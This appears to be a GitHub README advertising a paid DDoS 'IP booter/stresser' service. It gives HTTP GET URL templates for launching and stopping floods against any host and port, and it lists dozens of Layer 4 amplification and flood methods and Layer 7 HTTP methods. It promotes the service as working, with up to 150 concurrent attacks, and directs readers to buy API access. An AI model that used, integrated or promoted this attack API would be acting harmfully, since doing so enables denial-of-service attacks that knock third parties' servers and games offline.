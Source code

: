 <div align=center>
  
# DDOS / Attack API
  
Working DDOS API For [IP Booter](https://nightmarestresser.net/) / [IP Stresser](https://nightmarestresser.net/) With Layer 4 & Layer 7 Functions Supporting Stopping & Sendind Of Up To 150 Concurrent Floods With A Simple HTTP GET Request, Working In 2023 With Updated Methods.
  
##  API Showcase
![api](https://i.imgur.com/FerP3kP.png)

## Introduction & API Documentation

API is useful if you wish to implement it into your own software or create your own ip booter / ip stresser, allowing you to launch/stop attacks with a simple HTTP GET request, make sure to replace [KEY] with your key and same with method host port and time, time is counted in seconds. Only thing needed to get started is for you to register and get a plan that includes API access to get your API KEY on [nightmarestresser.net](https://nightmarestresser.net/)


Send Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=[METHOD]&host=[HOST]&port=[PORT]&time=[TIME]


Stop Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=STOP&host=[HOST]&port=[PORT]&time=[TIME]

```sh
  [Layer 4]
  UDP-AMP, SSDP, TCP-AMP, TCP-OVH, TCPBYPASS, TCP-HANDSHAKE, TCP-REFLECT, UDP-BYPASS, UDPBYPASS, TCP-TLS, TCP-RAND, TCP-SYN, NTP, CLDAP, DNS, ARD, WSD,
  FIVEM, GAME-FIVEM, TCP-DEVICES, CHARGEN, GAME-ARK, GAME-MINECRAFT, TCP-DATA, TCP-ACK, TCP-RAW, TCP-TFO, TCPBYPASSV2, 
  UDP-ABUSE, TCP-ECN, GAME-SOURCE, SOURCEOVH, TCP-IMP, ICMP-AMP, SNMP, DVR, GAME-SAMP	
  
   [Layer 7]
ROSETTA, STORM-HTTP, STORM-CONNECT, STORM-BYPASS, HTTP-REQ	

```
  
![showcase](https://dim.mcusercontent.com/cs/884fc8aa3c2d91b5cfb02efc2/images/49466a15-f998-d9d7-b9a9-c35f214db9f1.png?w=564&dpr=2)
